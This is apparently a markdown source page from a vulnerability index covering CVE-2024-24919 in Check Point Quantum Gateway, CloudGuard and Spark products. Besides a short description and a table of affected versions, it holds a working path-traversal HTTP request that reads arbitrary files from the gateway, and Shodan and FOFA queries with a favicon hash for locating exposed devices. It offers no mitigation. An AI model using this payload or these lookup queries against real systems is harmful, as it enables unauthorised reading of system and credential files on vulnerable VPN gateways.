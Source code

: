 ```yaml
---
title: (CPSSLNE) CVE-2024-24919 - Databased Index
permalink: /cpsslne
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">
<link rel="stylesheet" type="text/css" href="css/font.css">

Vulnerability disclosed by [Checkpoint](https://blog.checkpoint.com/security/enhance-your-vpn-security-posture) on May 27th 2024. 

This vulnerability, when taken advantage of, grants the attacker read access to system files.

|Products Affected| Versions Affected|
|------------------|-----------------|
|Check Point Quantum Gateway| R81.20, R81.10, R81, R80.40|
|CloudGuard Network| R81.20, R81.10, R81, R80.40|
|Check Point Spark|R81.10, R80.20|

### Payload
```
POST /clients/MyCRL HTTP/1.1
Host: <Host>

aCSHELL/../../../../../../../<File>
```

### Lookup Methods
> Favicon Hash: 794809961


|Shodan|FOFA|
|-------|----|
|title:"Check Point" ssl:"target"|title="Check Point SSL Network Extender"|
|http.favicon.hash:794809961||

